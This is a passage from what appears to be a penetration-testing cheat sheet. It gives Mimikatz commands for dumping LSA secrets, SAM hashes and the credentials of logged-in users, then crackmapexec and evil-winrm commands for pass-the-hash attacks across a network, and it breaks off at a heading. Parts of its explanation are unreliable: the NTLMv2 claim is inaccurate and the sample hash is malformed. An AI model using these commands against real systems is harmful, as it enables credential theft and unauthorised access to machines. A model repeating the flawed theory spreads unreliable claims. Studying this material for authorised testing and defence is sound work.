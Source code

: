  > 
 > **<font color=red>lsadump::lsa /patch</font>**</br>
  
 > Dump LSA Hashes (Local Security Authority).

 > 
 > **<font color=red>lsadump::sam</font>**</br>
 > Dump SAM NT Hashes.

 > 
 > **<font color=red>sekurlsa::logonpasswords</font>**</br>
 > Dump Hashes from LSAA Memory (Hashes of currently logged-in users).

# Pass the Hash

---

### CRACKMAPEXEC, EVIL-WINRM or IMPACKET-PSEXEC

### Theory

Pass the Hash attack is **possible with `NTLM` authentication protocol**, but will not work with `NTLMv2`.

There are two different hash types, `LM` and `NT`:

* LM hash example: 

 > 
 > Administrator:500:<font color=red>aad3b435b51404eeaad3b435b51404ee</font>:0e0363213e37b94221497260b0bc:::

* NT hash example: 
  \>Administrator:500:aad3b435b51404eeaad3b435b51404ee:<font color=red>0e0363213e37b94221497260b0bc:::</font>

### Hands On

#### Pass NT Hash


 > 
 > **<font color=red>crackmapexec smb </font>\[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-u</font> \[mySamName\] <font color=red>-H</font> \[myUserNTHASH\] <font color=red>--local-auth</font>**</br>
 > Pass the Hash attack (NT Hash) around the network to find vulnerable machines.


 > 
 > **<font color=red>evil-winrm -i</font> \[TARGET_IP\] <font color=red>-u</font> \[myUser\] <font color=red>-H </font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (NT Hash).

#### Pass LM+NT Hash

